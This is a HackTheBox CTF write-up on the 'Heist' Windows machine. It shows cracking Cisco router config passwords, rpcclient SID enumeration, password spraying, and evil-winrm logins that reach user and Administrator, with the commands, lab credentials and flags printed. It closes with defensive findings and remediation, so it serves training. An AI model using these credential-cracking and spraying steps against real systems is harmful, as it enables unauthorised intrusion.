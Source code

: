 # HEIST

![Heist Info Card](Heist_InfoCard.png)

This report walks through the compromise of the **Heist** machine on HackTheBox. By extracting and cracking router configuration passwords, we gain user access, then pivot through enumeration and password spraying to obtain a second user’s credentials. Finally, local log analysis reveals domain administrator credentials, resulting in full system compromise.

## Reconnaissance and Enumeration

An initial Nmap scan showed **port 80 (HTTP)** and other Windows services including **RPC**, **SMB**, and **WinRM**.

```sh
❯ sudo nmap -sC -sV -T4 -oA nmap_results 10.129.96.157
...
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds  Windows 10 Pro 17763 microsoft-ds (workgroup: SupportDesk)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
```

Navigating to `http://10.129.96.157` brought up a **Support Login** portal.

![Login Page](login-page.png)

Logging in as `guest`, we found a **message from Hazard** requesting a new account, along with an **attachment**.

![Issues Page](issues-page.png)

## Credential Discovery in Router Configuration

The linked attachment pointed to `http://10.129.96.157/attachments/config.txt`, which was a **Cisco router configuration file** containing encrypted passwords.

### Decrypted Credentials

- Cisco Type 7 Passwords:
  - `rout3r:$uperP@ssword`
  - `admin:Q4)sJu\Y8qz*A3?d`

- Cisco Type 5 Password (hashed with MD5, `$1$` format):
  - `stealth1agent` (hash cracked via hashcat)

---

### **Did You Know? – Cisco Passwords**

> Cisco routers can store passwords in **Type 7** (reversible XOR encryption) or **Type 5** (MD5 hashes). Type 7 passwords are easily cracked with known algorithms. Type 5 hashes require cracking tools like **hashcat**.

---

## Attempted Logins and RPC Access

While **WinRM login with Hazard's credentials failed**, we successfully connected using **RPC**:

```sh
❯ rpcclient -U 'hazard%stealth1agent' 10.129.96.157
rpcclient $> getusername
Account Name: Hazard, Authority Name: SUPPORTDESK
```

Unfortunately, we could not enumerate domain users with `enumdomusers`. However, we used **SID enumeration** as a workaround.

By obtaining Hazard's SID and iterating through possible RIDs, we discovered additional valid usernames:

```txt
Hazard
support
Chase
Jason
```

---

### Password Spraying Success

We **sprayed the decrypted passwords** against the enumerated users and hit a match:

```txt
Chase:Q4)sJu\Y8qz*A3?d
```

---

### **Did You Know? – Password Reuse**

> Password reuse between devices and accounts is a common misconfiguration. Using the same password for **network equipment** and **user accounts** can expose an organization to significant risk when one system is compromised.

## Gaining User Access

Using **Chase’s credentials**, we connected via **WinRM**:

```sh
❯ evil-winrm -i 10.129.96.157 -u chase -p 'Q4)sJu\Y8qz*A3?d'
```

User flag obtained:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
820ba9be77fc7354d032f322364ccb8a
```

A note on Chase’s desktop mentioned restricted guest access and router configuration.

## Privilege Escalation to Administrator

While exploring the system, we found a **Firefox Maintenance Log** that revealed admin credentials embedded in a software update URL:

```powershell
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Logged in via WinRM as Administrator:

```sh
❯ evil-winrm -i 10.129.96.157 -u Administrator -p '4dD!5}x/re8]FBuZ'
```

Root flag obtained:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5ed79b9116fe5c4122e3918cb8428113
```

![Heist Completed](Heist_Completed.png)

---

## Findings and Remediation

### Findings

- **Sensitive Credentials in Config Files**: Reversible and hashed passwords were stored insecurely in a public attachment.
- **Password Reuse**: Router password reused by a domain user.
- **SID Enumeration Enabled**: Allowed user discovery via RPC.
- **Credentials Leaked in Logs**: Admin password exposed in Firefox Maintenance log.

### Remediation

- **Secure Credential Storage**: Avoid sharing or storing sensitive config files on accessible platforms.
- **Unique Passwords**: Enforce unique passwords for devices and user accounts.
- **Restrict RPC Enumeration**: Harden systems to prevent SID and user enumeration over RPC.
- **Log Hygiene**: Avoid embedding credentials in command-line logs or system logs.

## Lessons Learned

Heist highlights real-world risks from poor credential handling, password reuse, and weak logging practices. Even without initial access, decrypted passwords and enumeration techniques allowed for pivoting and privilege escalation. Proper password management and system hardening are key to defense.

## Resources

- [HackTheBox - Heist CTF](https://app.hackthebox.com/machines/201)
- [Cisco Password Types Explained](https://community.cisco.com/t5/networking-knowledge-base/understanding-the-differences-between-the-cisco-password-secret/ta-p/3163238)
- [SID Enumeration Techniques](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

---

[⬅ Back to Home](/CTF-Reports/)

